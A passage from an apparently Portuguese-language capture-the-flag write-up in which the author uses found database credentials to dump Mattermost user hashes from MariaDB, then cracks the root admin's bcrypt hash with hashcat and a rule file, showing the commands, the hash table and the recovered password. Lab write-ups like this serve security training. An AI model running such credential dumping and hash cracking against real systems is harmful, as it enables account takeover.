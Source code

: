 Utilizando as credenciais **mmuser:Crack_The_MM_Admin_PW** acessei o database **mattermost** e na tabela users, encontrei os seguintes usuários e hashes, onde temos o usuário **root** com privilégios de **system_admin**

```plaintext
MariaDB [mattermost]> select Username,Password,Roles from Users;
+----------------------------------+--------------------------------------------------------------+--------------------------+
| Username                         | Password                                                     | Roles                    |
+----------------------------------+--------------------------------------------------------------+--------------------------+
| jdoe                             | $2a$10$qmuCH.AHht/dUGLd8ZyxMOMeZl6nU67B5okAiC0Vx44isKs5y6nkq | system_user              |
| surveybot                        |                                                              | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | system_admin system_user |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | system_user              |
| channelexport                    |                                                              | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | system_user              |
+----------------------------------+--------------------------------------------------------------+--------------------------+
```

Uma vez que no Mattermost o usuário root disse que a senha não estaria no dicionário, mas que poderia ser uma variação de `PleaseSubscribe!`, pesquisando sobre algumas formas de fazer o cracking desta senha encontrei a seguinte forma usando o `hashcat`:

- `basicpwd.txt` contém a senha `PleaseSubscribe!` conforme mencionado no Mattermost;
- O arquivo `best64.rule` contém algumas das mais populares formas de variação de senha.

Executando selecionando o tipo de hash correto (3200 - bcrypt), encontramos a senha **PleaseSubscribe!21**

```bash
$ hashcat -a 0 -m 3200 hash basicpwd.txt -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz, 5847/5911 MB (2048 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
```